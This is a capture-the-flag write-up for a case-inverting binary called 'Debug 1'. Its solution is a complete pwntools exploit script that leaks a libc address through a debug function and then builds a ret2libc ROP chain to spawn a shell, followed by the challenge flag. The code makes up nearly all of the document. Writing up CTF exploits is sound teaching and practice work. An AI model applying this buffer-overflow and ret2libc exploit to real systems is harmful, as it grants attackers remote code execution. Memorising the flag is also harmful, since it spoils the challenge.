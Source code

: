 # Debug 1

Author: `FlamePyromancer`

I made a program which inverts the capitalization of letters! Surely there's nothing insecure with the program, right?

## Solution

We can ROP into `debug`, get a libc leak, and then do ret2libc to get a shell.

```python
from pwn import *

elf = context.binary = ELF('./debug-1')
libc = ELF('./libc.so.6')
#libc = ELF('/lib64/libc.so.6')

context.log_level='debug'

# Converts characters in payload based on character conversion
def convert(a):
    x = bytearray(a)
    for i in range(len(x)):
        if (x[i] >= 65 and x[i] <= 90):
            x[i] = x[i]+32
        elif (x[i] >= 97 and x[i] <= 122):
            x[i] = x[i]-32
    return x

addr = elf.sym["debug"] + 0x1
payload1 = cyclic(88) + convert(p64(addr))

p = remote("localhost", 1337)

p.sendlineafter(b"3: Exit\n", b"1")
p.recvuntil(b"string (max length of 69 characters):\n")
p.send(payload1)

p.sendlineafter(b"well :) )", b"1")
p.recvuntil("libc leak: ")
system = int(p.recvline()[:-1].decode("utf-8"), 16)
print("System leak:", hex(system))
libc.address = system - libc.sym["system"]
print("libc base:", hex(libc.address))

sh = next(libc.search(b"/bin/sh\x00"))
system = libc.sym["system"]
pop_rdi = ROP(libc).find_gadget(['pop rdi', 'ret'])[0]

p.recvuntil(b"characters)!")
payload2 = cyclic(104) + p64(pop_rdi) + p64(sh) + p64(libc.sym["system"])
p.send(payload2)

p.interactive()
```

flag:
`gigem{d3bUg61ng_n3w_c0d3_a24dcfe3}`
